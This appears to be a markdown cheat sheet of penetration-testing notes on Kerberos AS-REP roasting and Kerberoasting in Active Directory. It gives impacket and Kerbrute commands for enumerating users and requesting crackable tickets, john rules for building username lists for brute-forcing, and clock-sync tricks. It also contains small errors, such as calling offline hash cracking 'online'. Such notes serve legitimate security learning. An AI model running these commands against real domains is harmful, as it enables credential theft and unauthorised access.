 # Kerberoas

---
# Navigation
- **[Definition](#Definition)**
- **[Kerberoas](#Kerberoas)**
	- [Kerbrute](#Kerbrute)
	- [Kerberoasting](#Kerberoasting) 
- **[Synchronizing time is important](#Synchronizing%20time%20is%20important)**
- **[Further reading](#Further%20reading)**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
- If a user's `UserAccountControl` settings have "Do not require kerberoas preauthentication" enabled,it's possible to grab user's crackable AS-REP and brute-force it online.
- With sufficient rights `GenericWrite` or `GenericAll`,preauth can be forced disabled as well.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Creating a list of users for bruteforcing
 - Download the rules
 ```bash
 curl https://gist.githubusercontent.com/dzmitry-savitski/65c249051e54a8a4f17a534d311ab3d4/raw/5514e8b23e52cac8534cc3fdfbeb61cbb351411c/user-name-rules.txt >> /etc/john/john.conf
 ```
 - To generate the list
 ```bash
 #Users file must be: zeyad abuqasem
 john --wordlist=first_last_names.txt --rules=Login-Generator-i --stdout > usernames.txt
 
 #For case sensitive output
 john --wordlist=first_last_names.txt --rules=Login-Generator --stdout > usernames.txt
 ```
 > Reference: https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method (my recommendation)
sudo apt install rdate
sudo rdate -n <DC>

#Third method 
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>

#Fourth method (xct notes)
sudo date -s "$(curl -sI <Target> | grep -i '^date:'|cut -d' ' -f2-)"
```
 
 # Further reading
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- Explained -> [**Kerberoasting**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)
- Ticket-Conversion -> [Experimenting with Kerberos Ticket Formats (tw1sm.github.io)](https://tw1sm.github.io/2021-02-01-kerberos-conversion/)
